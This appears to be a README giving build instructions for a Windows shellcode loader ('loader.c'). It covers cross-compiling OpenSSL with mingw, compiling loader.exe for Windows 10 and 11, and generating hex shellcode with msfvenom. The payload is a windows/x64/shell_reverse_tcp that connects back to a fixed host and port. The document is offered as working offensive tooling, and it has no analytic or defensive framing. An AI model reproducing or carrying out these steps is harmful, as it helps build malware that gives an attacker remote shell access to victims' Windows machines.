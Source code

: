 # COMPILATION INSTRUCTIONS

## Install openssl windows
```bash
wget https://www.openssl.org/source/openssl-1.1.1v.tar.gz
gunzip openssl-1.1.1v.tar.gz
tar -xvf openssl-1.1.1v.tar
cd openssl-1.1.1v
./Configure mingw64 --cross-compile-prefix=x86_64-w64-mingw32- --prefix=/usr/local/openssl-windows
make
make install
```

## Compile on windows10
```bash
x86_64-w64-mingw32-gcc loader.c -o loader.exe -I/usr/local/openssl-windows/include -L/usr/local/openssl-windows/lib -lcrypto -lssl -lws2_32
```

## Compile on windows11
```bash
x86_64-w64-mingw32-gcc loader.c -o loader.exe -I/usr/local/openssl-windows/include -L/usr/local/openssl-windows/lib -lcrypto -lssl -lws2_32 -static
```

## Generate shellcode
```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=1337 LHOST=10.1.101.7 -f hex
```
